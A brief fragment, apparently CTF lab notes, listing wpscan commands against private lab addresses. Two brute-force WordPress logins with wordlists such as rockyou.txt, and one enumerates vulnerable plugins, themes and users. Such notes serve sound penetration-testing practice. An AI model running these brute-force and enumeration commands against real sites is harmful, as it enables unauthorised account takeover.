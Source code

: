 ```
wpscan --url http://10.10.212.50/wp-login.php -P ufsociety.list --usernames elliot
```


```
┌─[✗]─[glack@parrot]─[~]
└──╼ $wpscan --url http://10.10.75.136 -e vp,u,vt
```


- for user login brute forcing
```
wpscan --no-banner --url http://10.10.214.134 --usernames hugo,c0ldd,philip --passwords /opt/rockyou.txt
```

